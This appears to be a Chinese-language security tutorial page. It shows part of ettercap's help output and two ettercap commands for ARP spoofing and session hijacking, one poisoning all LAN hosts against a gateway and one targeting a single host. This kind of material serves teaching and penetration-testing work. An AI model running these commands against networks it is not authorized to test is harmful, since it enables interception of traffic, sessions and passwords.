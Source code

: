 ```bash
      --private-key <file   private key file to use for SSL MiTM

User Interface Type:
  -T, --text                  use text only GUI
       -q, --quiet                 do not display packet contents
       -s, --script <CMD         issue these commands to the GUI
  -C, --curses                use curses GUI
  -D, --daemon                daemonize ettercap (no GUI)
  -G, --gtk                   use GTK+ GUI

Logging options:
  -w, --write <file         write sniffed data to pcapfile <file
  -L, --log <logfile        log all the traffic to this <logfile
  -l, --log-info <logfile   log only passive infos to this <logfile
  -m, --log-msg <logfile    log all the messages to this <logfile
  -c, --compress              use gzip compression on log files

Visualization options:
  -d, --dns                   resolves ip addresses into hostnames
  -V, --visual <format      set the visualization format
  -e, --regex <regex        visualize only packets matching this regex
  -E, --ext-headers           print extended header for every pck
  -Q, --superquiet            do not display user and password

General options:
  -i, --iface <iface        use this network interface
  -I, --liface                show all the network interfaces
  -Y, --secondary <ifaces   list of secondary network interfaces
  -n, --netmask <netmask    force this <netmaskon iface
  -A, --address <address    force this local <addresson iface
  -P, --plugin <plugin      launch this <plugin
  -F, --filter <file        load the filter <file(content filter)
  -z, --silent                do not perform the initial ARP scan
  -j, --load-hosts <file    load the hosts list from <file
  -k, --save-hosts <file    save the hosts list to <file
  -W, --wifi-key <wkey      use this key to decrypt wifi packets (wep or wpa)
  -a, --config <config      use the alterative config file <config

Standard options:
  -v, --version               prints the version and exit
  -h, --help 
```

### ARP欺骗之会话劫持：

```bash
ettercap -i eth0 -T -M arp:remote /10.0.0.1/ // 欺骗局域网内所有主机
ettercap -i eth0 -T -M arp:remote /10.0.0.1/ /10.0.0.12/ 欺骗IP为10.0.0.12的主机
```

　　![img](../../../../_ImageAssets/262350137461740-1573358989531.png)
